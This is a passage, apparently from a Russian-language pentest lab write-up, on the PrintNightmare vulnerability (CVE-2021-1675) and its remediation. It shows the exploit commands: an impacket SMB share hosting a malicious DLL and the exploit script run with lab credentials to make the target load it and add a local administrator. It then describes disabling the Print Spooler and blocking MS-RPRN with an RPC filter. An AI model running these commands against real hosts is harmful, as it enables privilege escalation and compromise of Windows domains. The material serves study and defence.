 Злоумышленник может разместить вредоносную библиотеку у себя на сервере и заставить уязвимый хост ее запустить. Вредоносная библиотека может содержать команды на создание локального пользователя и предоставление ему прав локального администратора хоста.
```
impacket-smbserver -smb2support ATTACKERSHARE .
python3 /home/kali/printnightmare/CVE-2021-1675.py essos.local/jorah.mormont:'H0nnor!'@braavos.essos.local '\\192.168.56.200\ATTACKERSHARE\adduser.dll'
```

![](/images/coerce/Pasted%20image%2020250107231941.png)

#### Решение

Отключить службу печати «Диспетчер печати» (spoolsv.exe) на всех сетевых объектах, где использование указанной службы не требуется.

Блокировка MS_RPRN с использованием фильтров RPC

Сначала создайте файл с именем `block_rprn.txt`и поместите в него следующее содержимое:

```
rpc
filter
add rule layer=um actiontype=block
add condition field=if_uuid matchtype=equal data=12345678-1234-ABCD-EF00-0123456789AB
add filter
quit
```

Затем импортируйте фильтр с помощью следующей команды из командной строки с повышенными привилегиями:  
`netsh -f block_rprn.txt`

Текущие фильтры можно просмотреть, выполнив следующую команду:  
`netsh rpc filter show filter`.
